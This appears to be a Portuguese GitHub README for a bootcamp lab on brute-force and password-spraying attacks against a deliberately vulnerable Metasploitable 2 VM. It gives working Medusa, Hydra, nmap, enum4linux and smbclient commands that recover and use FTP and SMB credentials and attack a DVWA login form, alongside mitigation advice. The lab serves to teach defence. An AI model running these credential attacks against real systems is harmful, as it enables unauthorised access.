

# 🛡️ Simulação de Ataque de Brute Force com Medusa e Kali Linux

> **Projeto Prático - Bootcamp Santander Cibersegurança 2024 / 2025**  
> *Plataforma:* [Digital Innovation One (DIO)](https://dio.me)  
> *Módulo:* Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

---

## 📋 Sumário
- [1. Visão Geral do Projeto](#1-visão-geral-do-projeto)
- [2. Topologia do Ambiente de Laboratório](#2-topologia-do-ambiente-de-laboratório)
- [3. Fundamentos Teóricos](#3-fundamentos-teóricos)
  - [Força Bruta Tradicional vs Dicionário](#força-bruta-tradicional-vs-dicionário)
  - [Password Spraying vs Credential Stuffing](#password-spraying-vs-credential-stuffing)
- [4. Reconhecimento e Enumeração de Rede](#4-reconhecimento-e-enumeração-de-rede)
- [5. Cenários Práticos de Ataque](#5-cenários-práticos-de-ataque)
  - [Cenário 1: Força Bruta em Serviço FTP com Medusa](#cenário-1-força-bruta-em-serviço-ftp-com-medusa)
  - [Cenário 2: Ataques em Formulários Web (DVWA)](#cenário-2-ataques-em-formulários-web-dvwa)
  - [Cenário 3: Ataque em Cadeia - Enumeração SMB e Password Spraying](#cenário-3-ataque-em-cadeia---enumeração-smb-e-password-spraying)
- [6. Validação de Acessos Obtidos](#6-validação-de-acessos-obtidos)
- [7. Comparativo de Ferramentas de Auditoria](#7-comparativo-de-ferramentas-de-auditoria)
- [8. Medidas de Mitigação e Hardening (Blue Team)](#8-medidas-de-mitigação-e-hardening-blue-team)
- [9. Estrutura do Repositório](#9-estrutura-do-repositório)
- [10. Conclusão e Referências](#10-conclusão-e-referências)

---

## 1. Visão Geral do Projeto

Este projeto tem como objetivo demonstrar, documentar e analisar **ataques de força bruta e quebra de credenciais** utilizando o sistema operacional **Kali Linux** e a ferramenta **Medusa**, além de contrapor com ferramentas complementares (Hydra, Ncrack, John the Ripper).

O laboratório foi implementado em um ambiente estritamente controlado e isolado (*Host-Only Network*) utilizando duas máquinas virtuais:
- **Kali Linux:** Máquina de auditoria e testes de intrusão.
- **Metasploitable 2:** Alvo intencionalmente vulnerável provendo serviços como FTP, HTTP (com DVWA - *Damn Vulnerable Web Application*), SSH e Samba/SMB.

Além da simulação ofensiva (*Red Team*), o projeto dedica atenção aprofundada às **estratégias de prevenção e mitigação (*Blue Team*)**, essenciais para a defesa de infraestruturas corporativas modernas.

---

## 2. Topologia do Ambiente de Laboratório

O ambiente foi montado com virtualização no **Oracle VM VirtualBox**. Ambas as máquinas compartilham o mesmo barramento de rede interna (*Host-Only Adapter*), garantindo que o tráfego gerado não trafegue na rede local física e não tenha acesso à internet.



---

## 3. Fundamentos Teóricos

### Força Bruta Tradicional vs Dicionário
- **Força Bruta Exaustiva (*Pure Brute Force*):** Testa sistematicamente todas as permutações possíveis de caracteres (comprimentos de 1 a N, combinando letras, números e símbolos). Matematicamente inviável para senhas longas devido à complexidade combinatória exponencial $O(C^L)$.
- **Ataque de Dicionário (*Dictionary Attack*):** Em vez de permutações cegas, utiliza listas de senhas reais compiladas de vazamentos de dados históricos (*wordlists* famosas como `rockyou.txt`), otimizando tempo e taxa de acerto.

### Password Spraying vs Credential Stuffing
| Conceito | Mecanismo | Comportamento Típico | Efeito nas Políticas de Bloqueio |
| :--- | :--- | :--- | :--- |
| **Força Bruta Direcionada** | Milhares de senhas testadas contra **1 único usuário**. | Alta frequência de requisições por conta. | **Dispara o bloqueio** (*Account Lockout*) rapidamente. |
| **Password Spraying** | **1 única senha fraca** testada contra **centenas de contas** simultaneamente. | Baixa frequência por usuário, diluída no tempo. | **Burlar limites** convencionais de bloqueio de conta. |
| **Credential Stuffing** | Combinações reais de `usuario:senha` obtidas em vazamentos de terceiros testadas em outros sistemas. | Validação automatizada em massa. | Efetivo devido ao hábito de reutilização de senhas. |

---

## 4. Reconhecimento e Enumeração de Rede

Antes de executar qualquer teste de autenticação, o primeiro passo é validar o alcance do alvo e mapear quais portas e serviços estão ativos.

### 1. Teste de Conectividade
```bash
ping -c 3 192.168.56.101
```

### 2. Varredura com Nmap
```bash
nmap -p 21,22,80,139,445 -sV -sC -Pn 192.168.56.101
```

**Portas de interesse mapeadas:**
- `21/tcp`: **vsftpd 2.3.4** (File Transfer Protocol)
- `80/tcp`: **Apache httpd 2.2.8** (Hospeda DVWA e Mutillidae)
- `139/445/tcp`: **Samba 3.X** (Compartilhamento de arquivos de rede SMB)

---

## 5. Cenários Práticos de Ataque

### Cenário 1: Força Bruta em Serviço FTP com Medusa

O FTP frequentemente sofre com falta de criptografia em trânsito e ausência de limites nativos para erros de autenticação contínuos.

#### Criação das Wordlists Didáticas
No diretório do projeto, foram criadas listas objetivas:
- `wordlists/users_common.txt`: nomes de usuários comuns (`msfadmin`, `root`, `admin`, `user`).
- `wordlists/passwords_common.txt`: senhas comuns e fracas (`123456`, `password`, `msfadmin`, `root`).

#### Execução do Comando Medusa
```bash
medusa -h 192.168.56.101 \
       -U wordlists/users_common.txt \
       -P wordlists/passwords_common.txt \
       -M ftp \
       -t 4 \
       -f \
       -v 4 \
       -O resultados_ftp.txt
```

#### Explicação dos Parâmetros:
- `-h 192.168.56.101`: IP do host alvo.
- `-U ...`: Caminho para a lista de usuários a testar.
- `-P ...`: Caminho para a lista de senhas a testar.
- `-M ftp`: Carrega o módulo dinâmico C específico para o protocolo FTP.
- `-t 4`: Estabelece até 4 conexões concorrentes.
- `-f`: *(Stop on first success)* Para a execução no momento em que a primeira credencial válida for validada.
- `-v 4`: Nível de verbosidade detalhado para acompanhar o envio de pacotes.
- `-O resultados_ftp.txt`: Exporta as credenciais válidas encontradas para um arquivo de texto.

**Resultado Obtido:**
```text
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

---

### Cenário 2: Ataques em Formulários Web (DVWA)

O **DVWA** (*Damn Vulnerable Web Application*) possui um módulo específico denominado **"Brute Force"** (`/dvwa/vulnerabilities/brute/`).

Diferente de protocolos baseados em texto puro ou sockets simples (como FTP), formulários web requerem o envio de requisições HTTP (GET/POST) com parâmetros de formulário e **cookies de sessão ativos**.

#### Mapeamento da Requisição HTTP:
Ao inspecionar a submissão do formulário no navegador ou via interceptação:
- **URL Alvo:** `http://192.168.56.101/dvwa/vulnerabilities/brute/`
- **Método:** `GET`
- **Parâmetros:** `username=admin&password=123456&Login=Login`
- **Mensagem de Falha:** `Username and/or password incorrect.`
- **Cookie de Sessão Obrigatório:** `PHPSESSID=...; security=low`

#### Automação com Medusa / Hydra:
Enquanto o módulo `http` do Medusa é adequado para autenticação básica (`HTTP Basic Auth`), formulários web complexos são tradicionalmente auditados de forma mais direta com o **THC-Hydra**:

```bash
hydra -l admin -P wordlists/passwords_common.txt 192.168.56.101 http-get-form \
  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=7b34bdf8872e457788190d78b871c53e"
```

---

### Cenário 3: Ataque em Cadeia - Enumeração SMB e Password Spraying

Em ambientes corporativos com diretórios de autenticação centralizados (Active Directory ou servidores Samba), realizar força bruta massiva contra um único usuário gera alertas imediatos no SIEM e trava a conta da vítima.

A técnica de **Password Spraying** resolve isso: primeiro realizamos a **enumeração de usuários legítimos** e, em seguida, pulverizamos uma única senha corporativa comum (ex: `Empresa@2024` ou `123456`) contra toda a base.

#### 1. Enumeração de Usuários no Samba/SMB
Utilizando o `enum4linux` ou Nmap scripts para extrair os usuários da máquina alvo:
```bash
enum4linux -U 192.168.56.101
```
*Usuários identificados salvos em `wordlists/smb_users.txt`.*

#### 2. Execução do Password Spraying com Medusa
```bash
medusa -h 192.168.56.101 \
       -U wordlists/smb_users.txt \
       -p "msfadmin" \
       -M smbnt \
       -t 2 \
       -v 4
```
- O parâmetro `-p "msfadmin"` define uma **única senha** para ser testada contra todos os usuários da lista (`-U`).
- O módulo `smbnt` realiza o handshake de autenticação NTLM sobre a porta SMB (139/445).

---

## 6. Validação de Acessos Obtidos

Após identificar credenciais válidas durante o teste, o pentester deve sempre validar a autenticidade do acesso.

### Validação de Acesso FTP:
```bash
ftp 192.168.56.101
Name: msfadmin
Password: msfadmin
ftp> ls
ftp> exit
```

### Validação de Acesso SMB com Smbclient:
Para listar os compartilhamentos de arquivos disponíveis e acessar os dados:
```bash
# Listar recursos compartilhados (Shares)
smbclient -L //192.168.56.101 -U msfadmin%msfadmin

# Conectar em um compartilhamento específico
smbclient //192.168.56.101/tmp -U msfadmin%msfadmin
```

---

## 7. Comparativo de Ferramentas de Auditoria

Durante o curso da DIO, diversas ferramentas do Kali Linux foram apresentadas:

| Ferramenta | Camada de Atuação | Ponto Forte | Limitação |
| :--- | :--- | :--- | :--- |
| **Medusa** | Rede (Online) | Modularidade em C, estabilidade, alta velocidade em sockets brutos (FTP, Telnet, SMB). | Sintaxe de formulários web complexos menos amigável. |
| **THC-Hydra** | Rede (Online) | Suporte excepcional a formulários web modernos, tokens e cookies. | Consumo elevado de recursos em altas threads. |
| **Ncrack** | Rede (Online) | Algoritmo adaptativo de timing baseado no estado dinâmico da rede. | Menor diversidade de módulos prontos. |
| **Patator** | Rede (Online) | Código em Python com suporte a regex para qualquer resposta customizada. | Desempenho de requisições/s ligeiramente inferior ao C puro. |
| **John the Ripper** | Host (Offline) | Quebra de hashes locais com aceleração por CPU/GPU e regras de mutação. | Não atua diretamente contra portas de rede online. |
| **WPScan** | Web Especializada | Auditoria profunda exclusiva do CMS WordPress (XML-RPC e wp-login). | Restrito a ambientes WordPress. |

*(Para detalhes técnicos aprofundados, consulte o [Comparativo Completo](docs/comparativo-ferramentas.md)).*

---

## 8. Medidas de Mitigação e Hardening (Blue Team)

Toda auditoria ética deve gerar orientações claras para defesa. As principais contramedidas incluem:

1. **Implementação de MFA (Multi-Factor Authentication):**
   - É a barreira mais eficiente contra ataques de força bruta, dicionário e credential stuffing. Mesmo com a senha correta, o acesso é negado sem a chave física ou token temporal.
2. **Políticas de Bloqueio de Conta (*Account Lockout*):**
   - No Linux, configurar o módulo PAM `pam_faillock` para bloquear a conta por 15 minutos após 5 erros consecutivos.
3. **Rate Limiting no Nível de Rede com Fail2Ban:**
   - Banir automaticamente no firewall endereços IP que gerem mais de 3 falhas de login por minuto em portas sensíveis (FTP, SSH, Web).
4. **Hardening do Samba / SMB:**
   - Desabilitar SMBv1 obsoleto, exigir assinatura de pacotes (`server signing = mandatory`) e restringir conexões nulas/anônimas (`restrict anonymous = 2`).
5. **Proteção Web (CAPTCHA e WAF):**
   - Adicionar CAPTCHA progressivo após a 2ª tentativa e configurar regras de WAF para limitar requisições POST para o endpoint `/login`.

*(Um script de demonstração do funcionamento do Rate Limiter e Lockout está disponível em [scripts/defense_rate_limiter.py](scripts/defense_rate_limiter.py)).*

---

## 9. Estrutura do Repositório

```text
dio-lab-bruteforce-medusa/
│
├── README.md                      # Documentação completa do projeto
├── .gitignore                     # Filtros de arquivos temporários e logs
│
├── docs/
│   ├── medusa-cheatsheet.md       # Cheat Sheet com parâmetros e módulos do Medusa
│   ├── comparativo-ferramentas.md # Estudo comparativo entre Medusa, Hydra, Ncrack, John, etc.
│   └── guia-mitigacao-hardening.md# Guia avançado de defesa, PAM, Fail2Ban e Hardening SMB
│
├── scripts/
│   ├── network_recon.sh           # Script para verificação e varredura com Nmap
│   ├── medusa_ftp_audit.sh        # Automação didática de auditoria de FTP
│   ├── medusa_smb_spraying.sh     # Automação de teste de Password Spraying em SMB
│   └── defense_rate_limiter.py    # Simulação Blue Team de Bloqueio e Detecção de Spraying
│
├── wordlists/
│   ├── users_common.txt           # Lista de usuários comuns para testes
│   ├── passwords_common.txt       # Dicionário de senhas fracas comuns
│   └── smb_users.txt              # Lista de usuários para o cenário corporativo SMB
│
└── images/
    └── README.md                  # Orientações sobre as capturas de tela das evidências
```

---

## 10. Conclusão e Referências

Este laboratório evidenciou como senhas fracas e serviços desprotegidos expõem infraestruturas críticas a testes automatizados de força bruta e password spraying. A utilização combinada de ferramentas de auditoria no Kali Linux demonstra que a segurança não reside no sigilo dos serviços, mas sim na aplicação rigorosa de defesas em camadas (*Defense in Depth*).

### Referências Utilizadas:
- [Documentação Oficial do Medusa](http://www.foofus.net/jmk/medusa/medusa.html)
- [Kali Linux Documentation](https://www.kali.org/docs/)
- [Nmap Network Scanning Book](https://nmap.org/book/)
- [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)
- [Digital Innovation One (DIO) - Formação e Bootcamps](https://dio.me)

---
*Projeto desenvolvido para fins estritamente educacionais e de pesquisa em segurança da informação.*
